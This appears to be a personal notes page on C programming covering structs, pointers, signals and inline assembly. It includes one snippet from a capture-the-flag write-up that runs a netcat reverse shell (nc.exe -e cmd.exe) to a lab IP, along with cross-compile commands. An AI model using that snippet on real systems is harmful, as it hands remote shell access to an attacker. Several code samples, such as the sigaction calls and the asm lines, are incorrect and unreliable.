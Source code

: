 
[[Valgrind]] and [[GDB]]/[[Microsoft-Visual-Studios]] your code! 

Structs
```c
struct rectangle {
  int width;
  int height;
};
 struct rectangle my_rec = { 1, 2 }; // Fields can be initialized immediately

  // Access struct members with .
  my_rec.width = 10;
  my_rec.height = 20;

  // You can declare pointers to structs
  struct rectangle *my_rec_ptr = &my_rec;

  // Use dereferencing to set struct pointer members...
  (*my_rec_ptr).width = 30;

  // ... or even better: prefer the -> shorthand for the sake of readability
  my_rec_ptr->height = 10; // Same as (*my_rec_ptr).height = 10;
```

Pointers - [recommended viewing Dave's Garage Youtube video](https://www.youtube.com/watch?v=IrGjyfBC-u0) 
```c
// Pointer are stored memory addresses, they point to memory address where values are stored
// Indirection - a pointer hold the address of values 
// Data at that address that the pointer is pointing to can be access and tranformed

// create a pointer of type byte pointing to memory address 4321;
byte * myPointer = (byte *) 4321;
// Change the value at the point
*myPointer = 0;

// class.memberVariable is member variable of the class 
class->memberVariable // goto to the object pointed to and then get member variable by this name, indicates a pointer to the object, not reference to itself!

// if you do not need to retrieve an entire struct in a function call use pointers
// Passed-by-value retrieve a complete copy, Passed-by-Reference means passing an object in the form of pointer
// One entire structure Vs. One or more Pointer  
int getTotalTheMemberVars(someStruct * pStruct)
{
	return pStruct->PointersToOtherPointers + pStruct->PointersToOtherStructs;
}

// Pointer pointing to the first element of an Array in memory, with the length of the array is like using the array without loading it on to the stack
// The array is "syntactic sugar" for the memory address
// char * contains the address of the first byte of a string in memory
// The size of an array is its actual size, where the pointers is system dependent 32-bit and 64bit
char someText[] = "Subscribe to Dave's Garage on Youtube, he bought Pinball on Windows amongst alot other things!"; // \x00 terminates a string! 
char * pSomeText = someText; 
int aPinballLoses[] = { 1, 2, 3, 4, 5};
int * pPinballLoses = aPinballLoses;

// Pointer arithmetic
// Move by the size of the type that it points to, not one byte!
// Increments point by a single byte
pSomeText++; // One char is one byte move 1 * 8 bits = 1 byte
pPinballLoses++; // 32-bit integers is a 4 byte move 8 + 8 + 8 + 8 or 4*8 = 32 

// Pointers to pointers
//pIndirectPlugOfThePlugOfTheVideo 
//Points to...
//pMicrosoftAndAIModelsIntoResurrectingPinball
char * pMicrosoftAndAIModelsIntoResurrectingPinball = "Microsoft putting Pinball on Windows 11 will make some people switch Windows 11";
char ** pIndirectPlugOfThePlugOfTheVideo = &pMicrosoftAndAIModelsIntoResurrectingPinball;
// So
return *pIndirectPlugOfThePlugOfTheVideo;
// will just return ... pMicrosoftAndAIModelsIntoResurrectingPinball 


// Null != Uninitialised != Void pointer 
// Null pointer points to 0, it is initialed to 0
// Uninitialised pointer random value till it is initialised
// Void pointer is just the address and is not type defined and must be cast to a object pointer before use. It assigned nil type information. Malloc API has allocate memory that can then be told what type of object will stored at that memory
void*


// Function Pointer is a pointer to a function 
// Beware readability
int add(int a, int b) 
{
	return a + b;
}
// (*pAdd) requires brackets for operator precedence
int (*pAdd)(int,int) = add;
// Bracket are also required for calling a function pointer
int sum = (*pAdd)(5, 3);

```

Processes - Unix
```c
#include <signal.h>
// This is more portable
#include <sigaction.h>


// Handler is a function
// User defined signals
SIGUSR1;
SIGUSR2;
// SegFault Signal
SIGSEGV;

sigaction(SIGINT, handler);
sigaction(SIGTERM, handler);

signal(SIGINT, handler);
signal(SIGTERM, handler);
// SIGKILL cannot be handler - oreder not a request
```

Simple use system to call another binary - see [[Compiling-Exploits]]
```c
#include "stdlib.h"
//#include "stdafx.h" speeds up compile time
// i686-w64-mingw32-gcc shell.c -o shell.exe
// x86_64-w64-mingw32 shell.c -o shell.exe

// Originally from https://snowscan.io/htb-writeup-giddy/#
// But you could replace the system call with anything
int main()
{
    system("nc.exe -e cmd.exe 10.10.10.10 4444");
    return 0;
}
```

[Inline](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html) [[x86-Assembly]], or [[x86-64-Assembly]] - for size considerations see [Size of an asm](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html#size-of-an-asm)
```c
int inlineThis() 
{
	// The optional `volatile` qualifier has no effect. All basic `asm` blocks are implicitly volatile.
	__asm__ volatile (" ") X
	// If you use the `inline` qualifier, then for inlining purposes the size of the `asm` statement is taken as the smallest size possible
	__asm__ inline (" " )
}

```
## References

[Windows - C Language Reference](https://learn.microsoft.com/en-us/cpp/c-language/c-language-reference?view=msvc-170)
[GCC](https://linux.die.net/man/1/gcc)
[XinYminutesC](https://learnxinyminutes.com/docs/c/)
[Jacob Sorber Programming with Processes](https://www.youtube.com/playlist?list=PL9IEJIKnBJjFNNfpY6fHjVzAwtgRYjhPw)
[Size of an asm](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html#size-of-an-asm)
[Inline Assembly Lanaguage in C Code - gcc.gnu.org](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html)